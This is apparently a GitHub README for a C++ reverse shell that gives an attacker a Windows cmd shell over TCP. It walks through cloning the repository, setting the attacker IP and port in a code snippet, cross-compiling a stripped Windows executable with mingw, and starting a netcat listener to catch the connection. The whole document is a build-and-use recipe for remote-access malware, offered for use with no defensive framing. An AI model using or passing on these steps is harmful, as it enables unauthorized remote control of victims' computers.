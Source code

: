 # C ++ Reverse Shell

This is a simple C++ based reverse shell give us a windows  cmd shell over TCP .  


## installation

    $ apt install mingw-w64
    $ git clone https://github.com/dev-frog/C-Reverse-Shell.git
    $ cd C-Reverse-Shell
  


##  change The IP and Port number in the source code

There is **re.cpp** file you have to open and change the **ip address** and **port number**

![alt text](https://github.com/dev-frog/C-Reverse-Shell/blob/master/img/re.PNG)

    70 else {
    71    char host[] = "192.168.0.101";  // change this to your ip address
    72    int port = 4444;                //chnage this to your open port
    73    RunShell(host, port);
    74}
    


## Compile it

    i686-w64-mingw32-g++ re.cpp -o re.exe -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc

## Start  the netcat Listener
 

     nc -lvnp <port number>


